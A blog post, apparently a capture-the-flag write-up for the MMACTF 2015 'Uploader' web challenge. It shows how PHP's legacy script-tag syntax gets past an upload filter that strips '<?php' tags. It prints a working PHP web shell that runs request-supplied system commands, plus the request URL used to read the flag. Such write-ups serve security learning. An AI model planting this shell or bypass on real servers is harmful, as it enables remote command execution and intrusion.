 ```yaml
---
author: AnirudhAnand
layout: post
title: 'Executing php using script tags - MMACTF 2015, Uploader, web 100 writeup'
categories:
- webchallenges
- ctf-web
keywords: CTF, webhacking
summary: Do you happen to know that PHP can be executed using script tags ?
---
```


Well this was quite a fascinating challenge. We are greeted with a challenge which has a direct file upload which even uploads `.php` but will not execute it because there is a filter which goes through the file we uploaded and removes all `<?php` tags from it. I tried several ways to escape out of Regex filter (or what ever filter they are using) but I just couldn't do it. 

After reading and trying a lot of different methods (every single one failed), I read the description of the challenge again: 

    This uploader deletes all /<\?|php/. So you cannot run php. 
    
Well, now thats interesting. If they want to disallow the PHP execution, they why did they allow us to upload `.php` extension files ? They can easily limit the upload feature but they didn't which means our aim is to execute php web shell without using the `<?php` to write the code. 

Frankly speaking, I had no idea on how to execute without adding `<?php`. So I googled around to see an alternative option and I was shocked to read **[php tags documentation](http://php.net/manual/en/language.basic-syntax.phptags.php)**. Did you see an awesome method of executing php there ?

`<script language="php"> </script>`

That moment I didn't know how to explain but I was quite surprised. Now lets right a simple web shell using the same:

{%highlight php lineos %}

<script language="phP">
    if(isset($_REQUEST['cmd'])){
        $cmd = ($_REQUEST["cmd"]);
        system($cmd);
        die;
    }
</script>

{%endhighlight%}.

Called it `shell.php` and uploaded it. The uploader gives me direct access to the file with which I can run system commands :-). Now its a matter of searching for the flag and it was there in the root directory itself.
 
 `http://recocta.chal.mmactf.link:9080/u/shelll.php?cmd=cat%20/flag`
 
 This gives me back the flag I was looking for.
 
 Flag: `MMA{you can run php from script tag} `
 
 The challenge were super fun and a good learning too. I never knew that `<script language="php">` could actually execute php. Thanks to the organizers of MMACTF for the awesome challenges.
 
 Also read: [Local File inclusion + File Upload = Remote Code execution - MMACTF 2015 web 300 writeup]({{ site.url }}/2015/09/07/mmactf-web300-challenge-writeup/)
